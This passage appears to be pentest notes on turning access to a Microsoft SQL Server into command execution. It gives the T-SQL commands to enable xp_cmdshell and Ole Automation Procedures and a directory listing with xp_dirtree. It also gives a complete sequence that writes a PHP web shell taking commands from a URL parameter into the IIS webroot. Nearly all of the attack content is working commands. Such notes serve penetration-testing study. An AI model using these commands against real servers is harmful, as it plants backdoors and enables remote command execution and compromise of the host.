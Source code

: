 

  If they are not enabled, try enabling them:

  

```sql
enable xp_cmdshell

EXEC sp_configure 'show advanced options', 1;

RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;
```

  there are other methods to get CME such as [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql).

### Example CME

If there's **IIS** running and **xp_dirtree** is enabled:

```sql
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```


### Write Local File

To write local file for CME,  we need to have Ole Automation Procedures enabled (Needs Admin privilege). 

How to enable:

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

Now that Ole Automation Procedures is enabled, let's create a file:

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
